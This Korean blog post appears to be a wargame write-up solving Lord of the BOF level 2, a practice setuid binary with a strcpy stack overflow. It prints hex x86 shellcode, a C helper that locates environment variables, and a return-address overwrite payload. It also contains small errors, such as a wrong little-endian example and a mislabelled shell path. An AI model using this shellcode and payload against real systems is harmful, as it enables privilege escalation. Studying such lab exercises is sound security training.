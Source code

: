 ```yaml
---
title: BOF/ LOB-level2(gremlin)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 2(gremlin)
**ID : gremlin**  
**PASSWD : hello bof world**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level2/1.PNG)  
사용자 cobolt의 권한의 cobolt파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 cobolt의 권한으로 파일을 실행할 수 있다.**  
**cobolt파일이 쉘을 실행시키도록 한다면 사용자 cobolt의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
{% endhighlight %}  

**cobolt.c**

### 소스분석  
1. buffer의 크기가 16Byte이다.  
[LOB(level1)](https://limjunho.github.io/2019/09/29/LOB-level1(gate).html)**와 같이 쉘코드를 사용하기엔 buffer의 크기가 작다.**  
2. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
3. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력하는 소스(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 16Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**환경변수에 쉘코드를 등록하고 환경변수의 주소를 buffer over-flow시켜 프로그램이 쉘코드를 실행하도록 공격한다.**  
what is 환경변수? - 프로세스가 컴퓨터에서 동작하는 방식에 영향을 미치는 동적인 값들의 모임으로 쉘에서 정의되고 실행하는 동안 프로그램에 필요한 변수를 나타냄.  

#### level2에서 사용한 쉘코드  
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 41Byte 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

![그림2](/assets/LOB/level2/2.PNG)  
**위와같이 환경변수에 쉘코드를 등록한다**  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(16Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 쉘코드의 주소를 ret에 덮어씌우면 main함수가 종료되며 쉘코드를 실행시킬 것이다.  

### 환경변수 주소    

**환경변수의 주소를 얻는 프로그램을 코딩**  
<br />
{% highlight C linenos %}  
/* 환경변수의 주소는 bf로 시작한다 즉, 프로그램이 실행되면 환경변수의 데이터들이 스택 어딘가에 들어간다.
   따라서 프로그램 이름의 길이나 명령어의 길이등에 따라 환경변수의 주소가 바뀐다.
   아래의 소스는 정확한 주소를 획득할 수 있다. */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char* argv[]){
    char* ptr;
    
    ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
    // argv[0]=./getenv	argv[2]=타깃 바이너리의 절대경로
    printf("%s will be at %p\n", argv[1], ptr);

    return 0;
}
{% endhighlight %} 
![그림3](/assets/LOB/level2/3.PNG)  
**첫 번째 인자는 환경변수 이름, 두 번째 인자는 타깃 파일의 절대경로이다.**  

### Attack  

환경변수의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./gremlin [dummy값] + [환경변수주소]**의 형태로 공격.  
**이 때 dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 20Byte여야 한다.**
**또한 RET에 덮을 쉘코드의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level2/4.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./cobolt `python -c "print 'A' *20 + '\xbb\xfe\xff\xbf'"`
```